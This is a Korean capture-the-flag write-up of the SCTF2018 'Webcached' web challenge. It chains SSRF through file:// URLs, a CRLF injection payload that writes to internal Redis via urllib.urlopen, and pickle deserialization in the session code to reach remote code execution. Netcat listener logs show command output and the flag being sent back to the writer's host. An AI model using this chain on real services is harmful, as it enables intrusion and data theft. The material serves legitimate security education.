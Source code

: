 # [Web] SCTF2018 Quals - Webcached

## Attack scenario

1. Set session varable in redis' database using CRLF Vulnerability.
2. Occure RCE using Pickle Vulnerability.
3. Get flag.

## SSRF

이 문제는 url을 입력받는 하나의 input이 존재한다.

해당 값에 `file` 스키마를 이용하여 소스코드를 얻을 수 있다.

> file:///proc/self/cwd/run.py
>
> file:///proc/self/cwd/session_interface.py

또한 `http://127.0.0.1:6379` 와 같이 내부망 서비스에 대한 SSRF공격이 가능하다.

run.py함수의 `cached`와 `load_cache` 함수를 보자.

```python
def cached(url):
    key = '{}:{}'.format(request.remote_addr, url)
    print key
    resp = r.get(key)
    if resp is None:
        resp = load_cache(url)
        r.setex(key, resp, 3)
    return resp

def load_cache(url):
    def get(url):
        return urllib.urlopen(url).read()
    socket.setdefaulttimeout(0.5)
    try:
        resp = get(url)
    except socket.timeout:
        resp = '{} may be dead...'.format(url)
    except Exception as e:
        resp = str(e)
    socket.setdefaulttimeout(timeout)
    return resp
```

cached 함수에서 redis database안에 데이터가 없으면 load_cache를 호출한다.

load_cache에서는 내부에서 정의된 함수 get을 이용해 url을 읽어온다.

`urllib.urlopen`은 **Header Injection** 이 가능하다.

이를 이용하여 Redis 데이터 베이스포트인 6379를 대상으로 CRLF공격이 가능하다.

## Pickle

이번에 알아볼 취약점은 session_interface.py안에 존재하는 pickle취약점이다.

```python
def open_session(self, app, request):
    sid = request.cookies.get(app.session_cookie_name)
    if not sid:
        sid = self.generate_sid()
        return self.session_class(sid=sid, new=True)
    val = self.redis.get(self.prefix + sid)
    if val is not None:
        val = base64.b64decode(val)
        if 'SAVE:6379' not in val:
            print val
        data = self.serializer.loads(val)
        return self.session_class(data, sid=sid)
    return self.session_class(sid=sid, new=True)

def save_session(self, app, session, response):
    domain = self.get_cookie_domain(app)
    print app
    if not session:
        self.redis.delete(self.prefix + session.sid)
        if session.modified:
            response.delete_cookie(app.session_cookie_name,
                                   domain=domain)
        return
    #print session['url']
    redis_exp = self.get_redis_expiration_time(app, session)
    cookie_exp = self.get_expiration_time(app, session)
    print dict(session)
    val = base64.b64encode(self.serializer.dumps(dict(session)))
    self.redis.setex(self.prefix + session.sid, val,
                     int(redis_exp.total_seconds()))
    response.set_cookie(app.session_cookie_name, session.sid,
                        expires=cookie_exp, httponly=True,
                        domain=domain)

```

save_session 함수에서 사용자가 요청한 url 값을 pickle을 통해 dump하고 그 값을 redis의 `session:~~~`의 값으로 넣는 것을 확인할 수 있다.

그 후 open_session에서 Redis에서 `session:~~~`에 들어간 pickle을 loads하는 것을 알 수 있는데, 여기서 pickle의 값을 위의 CRLF취약점을 통해 변조가 가능하다.

이를 이용하여 RCE이 가능하며, 이를 통해 플래그를 읽으면 문제를 풀 수 있다.

## Trigger

url 입력 칸에 `\r\n`를 삽입하여 원하는 값을 데이터베이스에 넣는 것이 가능하다. (CRLF)

urllib.urlopen함수를 통해 CRLF를 일으켜야하고, 방법은 다음과 같다.

```
http://127.0.0.1%0d%0a SET shpik hello%0d%0a SAVE:6379/
```

위 취약점을 pickle값을 Redis에 넣고, 페이지를 요청하게 되면 RCE가 발생한다.



```
osehun@ubuntu16-04-64bit:~$ nc -lvp 10101
Listening on [0.0.0.0] (family 0, port 10101)

Connection from [13.125.188.166] port 10101 [tcp/*] accepted (family 2, sport 48416)
total 20
drwxr-xr-x 1 root root 4096 Jun 18 09:32 .
drwxr-xr-x 1 root root 4096 Jul  2 13:19 ..
-rw-rw-r-- 1 root root 1415 Jun 18 09:28 run.py
-rw-rw-r-- 1 root root 2400 Jun 18 09:28 session_interface.py
drwxrwxr-x 2 root root 4096 Jun 18 09:28 templates
^C
osehun@ubuntu16-04-64bit:~$ nc -lvp 10101
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [13.125.188.166] port 10101 [tcp/*] accepted (family 2, sport 48424)
total 8532
drwxr-xr-x   1 root  root     4096 Jul  2 13:19 .
drwxr-xr-x   1 root  root     4096 Jul  2 13:19 ..
-rwxr-xr-x   1 root  root        0 Jul  2 13:19 .dockerenv
drwxr-xr-x   1 root  root     4096 Jun 18 09:32 app
drwxr-xr-x   1 root  root     4096 Jun 18 09:32 bin
drwxr-xr-x   2 root  root     4096 Mar 13  2016 boot
-rw-------   1 root  root  8646656 Jun  8  2016 core
drwxr-xr-x   2 redis redis    4096 Jun  8  2016 data
drwxr-xr-x   5 root  root      360 Jul  2 13:19 dev
lrwxrwxrwx   1 root  root       34 Jun  8  2016 entrypoint.sh -> usr/local/bin/docker-entrypoint.sh
drwxr-xr-x   1 root  root     4096 Jul  2 13:19 etc
-r--r--r--   1 root  root       39 Jun 29 11:48 flag_dad9d752e1969f0e614ce2a4330efd6e
drwxr-xr-x   2 root  root     4096 Mar 13  2016 home
drwxr-xr-x   1 root  root     4096 Jun 18 09:31 lib
drwxr-xr-x   1 root  root     4096 Jun 18 09:31 lib64
drwxr-xr-x   2 root  root     4096 May 23  2016 media
drwxr-xr-x   2 root  root     4096 May 23  2016 mnt
drwxr-xr-x   2 root  root     4096 May 23  2016 opt
dr-xr-xr-x 170 root  root        0 Jul  2 13:19 proc
drwx------   2 root  root     4096 May 23  2016 root
drwxr-xr-x   1 root  root     4096 Jul  2 13:19 run
-rwxr-xr-x   1 root  root       79 Jun 18 09:28 run.sh
drwxr-xr-x   2 root  root     4096 May 23  2016 sbin
drwxr-xr-x   2 root  root     4096 May 23  2016 srv
dr-xr-xr-x  13 root  root        0 Jun 29 12:19 sys
drwxrwxrwt   1 root  root     4096 Jul  2 13:19 tmp
drwxr-xr-x   1 root  root     4096 Jun  8  2016 usr
drwxr-xr-x   1 root  root     4096 Jun 18 09:32 var

osehun@ubuntu16-04-64bit:~$ nc -lvp 10101
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [13.125.188.166] port 10101 [tcp/*] accepted (family 2, sport 48430)
SCTF{c652f8004846fe0e3bf9571be26afbf1}
```



**SCTF{c652f8004846fe0e3bf9571be26afbf1}**